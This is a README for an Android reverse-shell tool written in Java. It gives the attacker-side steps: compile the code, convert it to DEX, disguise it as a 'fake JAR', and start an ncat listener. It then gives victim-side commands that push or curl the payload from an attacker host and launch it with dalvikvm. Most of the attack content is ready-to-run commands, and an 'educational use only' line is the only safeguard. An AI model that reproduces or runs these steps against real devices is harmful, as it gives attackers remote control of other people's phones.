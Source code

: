 # Java Android Reverse Shell with SSL Support

Original Tutorial: https://malacupa.com/2018/10/25/android-command-line-reverse-shell.html

UPDATED WITH SSL SUPPORT https://github.com/CalfCrusher/JavaAndroidReverseShell/tree/main/SSL

## On Attacker machine - Linux -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code to bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 AndroidReverseShell.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 AndroidReverseShell.class`

#### Create fake JAR file
`zip reverse.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On Victim device - Android -
`adb push reverse.jar /sdcard` (if Android Debug Tools is enabled)

or you can just curl

`curl http://attackingmachine:9999/reverse.jar -o /sdcard/reverse.jar`<br/>

and then run the reverse shell using dalvikvm from Termux:

`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse.jar AndroidReverseShell`

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Todo

~~Support for SSL encryption~~

## Disclaimer:

For educational use only !

Java code was taken from https://gist.github.com/malacupa/3a98285ad67c98386f7e798b25ef808c#file-reverseshell-java. All credits goes to original developer

